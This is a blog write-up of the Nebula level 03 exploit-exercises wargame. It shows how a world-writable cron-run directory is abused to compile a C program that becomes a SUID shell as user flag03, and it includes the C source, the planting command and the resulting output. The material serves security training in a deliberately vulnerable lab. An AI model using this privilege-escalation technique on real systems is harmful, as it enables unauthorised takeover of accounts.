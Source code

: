 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 03"
date: 2011-12-04T15:22:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


In [this](http://exploit-exercises.com/nebula/level03) challenge, we can see that there's no code for us to exploit, it's something in the system. 
I log in to the system, and look in the /home/flag03 folder, as all the other challenges have started.  I see there's a writable.sh script, which I was guessing was the script getting called on a crontab every couple minutes.  It contained: 

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So this script looks like it will execute anything in the writable.d folder that we put in there.  And after some tinkering, I can see that it's running it as the flag03 user that we want to escalate to. 

My first thoughts were to create a bash script like previous challenges, and have it get created with SUID permissions.  However this didn't work, because apparently bash ignores the SUID bit, for security reasons.  I then read up on using perl, but couldn't get it to work, due to perl's built in protection.  Lastly, I settled on just good old C/C++. I spent forever messing around with this, because I was always setting the uid, but never the euid. When I forgot that, it would run bash, but I'd be the same user. I created this source file, and saved it to /tmp/level03.c 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setresuid(996, 996, 996);
    setresgid(996, 996, 996);
    system( "/bin/bash" );
    return 0;
}
```

NOTE: The "996" is the userid and groupid for flag03.  I found this by just doing 

```
level03@nebula:/home/flag03$ cat /etc/passwd
```

Now that I have a source file, I need to get the flag03 user to compile it, and mark it SUID, so that when it runs, it works as the user specified.  I did it by using the following command: 

```
level03@nebula:/home/flag03$ echo -e 'gcc -o /home/flag03/level03 /tmp/level03.c;chmod +s,a+rwx /home/flag03/level03' > /home/flag03/writable.d/bash; chmod +x /home/flag03/writable.d/bash
```

This will create a bash script to get picked up by the cron job.  It first compiles the /tmp/level03.c code file and outputs the binary to /home/flag03/level03.  Afterwards it sets the permissions to allow executing (and more technically) as well as SUID.  After this command, I had to wait a couple minutes for it to get picked up by the cron job, but then I ran it, and got access to flag03. 

```
level03@nebula:/home/flag03$ ./level03
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
```